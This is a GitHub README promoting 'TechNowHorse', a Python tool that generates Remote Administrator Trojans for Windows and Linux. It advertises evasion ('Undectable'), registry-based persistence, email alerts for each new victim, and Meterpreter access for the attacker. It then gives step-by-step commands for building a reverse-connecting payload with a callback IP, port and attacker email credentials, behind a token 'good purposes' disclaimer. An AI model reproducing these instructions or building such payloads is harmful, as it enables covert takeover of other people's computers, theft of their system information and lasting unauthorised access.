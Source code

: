 <h1 align="center">TechNowHorse</h1>
<p align="center">
  <a href="https://github.com/tiagorlampert/sAINT/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-BSD%203-lightgrey.svg">
  </a>
  <a href="https://github.com/tiagorlampert/sAINT/tree/master/src_template/main/java/saint">
    <img src="https://img.shields.io/badge/Release-1.0-blue.svg">
  </a>
    <a href="https://opensource.org/licenses/BSD-3-Clause">
    <img src="https://img.shields.io/badge/Open%20Source-%E2%9D%A4-brightgreen.svg">
  </a>
</p>



<p align="center">
  TechNowHorse is a RAT (Remote Administrator Trojan) Generator for Windows/Linux systems written in Python 3.
</p>

This small python script can do really awesome work.

## Disclaimer
<p align="center">
  :computer: This project was created only for good purposes and personal use.
</p>

THIS SOFTWARE IS PROVIDED "AS IS" WITHOUT WARRANTY OF ANY KIND. YOU MAY USE THIS SOFTWARE AT YOUR OWN RISK. THE USE IS COMPLETE RESPONSIBILITY OF THE END-USER. THE DEVELOPERS ASSUME NO LIABILITY AND ARE NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE CAUSED BY THIS PROGRAM.

## Features
- [x] Works on Windows/Linux
- [x] Notify New Victim Via Email
- [x] Undectable
- [x] Persistence
- [x] Give Full Meterpreter Access to Attacker
- [x] Didn't ever require metesploit installed to create trojan
- [x] Creates Executable Binary With Zero Dependencies

## Tested On
[![Kali)](https://www.google.com/s2/favicons?domain=https://www.kali.org/)](https://www.kali.org) **Kali Linux - ROLLING EDITION**

[![Windows)](https://www.google.com/s2/favicons?domain=https://www.microsoft.com/en-in/windows/)](https://www.microsoft.com/en-in/windows/) **Windows 8.1 - Pro


## Following is the limitations of meterpreter payload generated using metasploit:-
  * Have to run the Metasploit Listener before executing backdoor
  * Backdoor itself don't become persistence, we have to use the post exploitation modules in order to make backdoor persistence. 
    And post exploitation modules can only be used after successful exploitation.
  * Didn't Notify us whenever payload get executed on new system.
  
We all know how powerful the Meterpeter payload is but still the payload made from it is not satisfactory.

## Following are the features of this payload generator which will give you a good idea of this python script:-
  * Uses Windows registry to become persistence in windows.
  * Also manages to become persistence in linux system.
  * Payload can run on LINUX as well as WINDOWS.
  * Provide Full Access, as metasploit listener could be used as well as supports custom listener (You can Create Your Own Listener)
  * Sends Email Notification, when ever payload runs on new system, with complete system info.
  * Generates payload within 1 minute of ever less.
  * Supports all meterpreter post exploitation modules.
  * payload Can be Created on Windows as well as Linux system.


## Prerequisite
- [x] Python 3.X
- [x] Few External Modules

## How To Use in Linux
```bash
# Install dependencies 
$ Install latest python 3.x

# Clone this repository
$ git clone https://github.com/Technowlogy-Pushpender/technowhorse.git

# Go into the repository
$ cd technowhorse

# Installing dependencies
$ python -m pip install -r requirements.txt

$ chmod +x paygen.py
$ ./paygen.py  --help    or   python paygen.py --help

# Making Payload/RAT
$ python paygen.py --ip 127.0.0.1 --port 8080 -e youremail@gmail.com -p YourEmailPass -l -o output_file_name
```

## How To Use in Windows
```bash
# Install dependencies 
$ Install latest python 3.x

# Clone this repository
$ git clone https://github.com/Technowlogy-Pushpender/technowhorse.git

# Go into the repository
$ cd technowhorse

# Installing dependencies
$ python -m pip install -r requirements.txt

# Open paygen.py in Text editor and Configure Line 7 "PYTHON_PYINSTALLER_PATH = "C:/Python37-32/Scripts/pyinstaller.exe" "

# Getting Help Menu
$ python paygen.py --help

# Making Payload/RAT
$ python paygen.py --ip 127.0.0.1 --port 8080 -e youremail@gmail.com -p YourEmailPass -w -o output_file_name
```
